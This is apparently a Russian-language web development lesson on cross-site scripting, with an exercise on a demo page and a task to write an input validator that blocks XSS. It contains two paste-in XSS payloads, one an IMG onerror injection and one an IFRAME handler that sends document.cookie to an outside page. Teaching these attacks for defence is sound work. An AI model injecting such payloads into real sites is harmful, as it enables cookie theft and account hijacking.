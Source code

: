 # 🎓 XSS

XSS ( Cross-Site Scripting — «межсайтовый скриптинг» ) — атака на веб-систему путем инъекции вредоносного кода
```
( вместо "C" используется "X", чтобы не было путаницы с CSS )
```
    Внедренный код будет выполняться на компьютере пользователя
    Код может пересылать конфиденциальные данные  пользователя  веб-серверу хакера
```
Разновидностей XSS-атак очень много
Частично они отражаются на уровне браузера
В данном примере мы  будем внедрять код при вводе пользовательских данных
и использовать обработчиков событий элементов для запуска внедренного кода
```
[:link: Перейдите по ссылке](https://garevna.github.io/js-samples/#03){:target="_blank"}

Откройте  `Chrome DevTools`

Установите точки останова  ( breakpoints ) для того, чтобы 
пошагово отслеживать выполнение кода и
вносить изменения в код

1. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IMG SRC="images/hack.png" onerror="document.write ( String.fromCharCode ( 88, 83, 83) )"/>
```
это довольно безобидная "атака", которая просто перезапишет содержимое body

2. Скопируйте код ниже и вставьте его в поле ввода элемента input:
```html
<IFRAME SRC=js/attack.html 
        onmouseover="window.open ( 'https://garevna.github.io/js-samples/js/attack.html#' + document.cookie, '_self' )">
</IFRAME>
```
`( с помощью такой строки можно украсть куки с компьютера пользователя, где хранится конфиденциальная информация о нем )`

Обратите внимание, что вместо ссылки ☕ ~~https://garevna.github.io/js-samples/js/attack.html~~

в реальной атаке будет ссылка на сайт ( страницу ) хакера

## 💼 

В панели навигации откройте файл **js/index03.js**

Обратите внимание на функцию валидации ввода пользователя  ( **testUserText** )

В случае XSS атаки функция должна заменить текст, введенный пользователем, на сообщение: "*XSS атака отражена*" с указанием текущей даты и времени

***
[:link: securitylab](https://www.securitylab.ru/analytics/432835.php)
[:link: websitesecurity](https://www.acunetix.com/websitesecurity/cross-site-scripting/)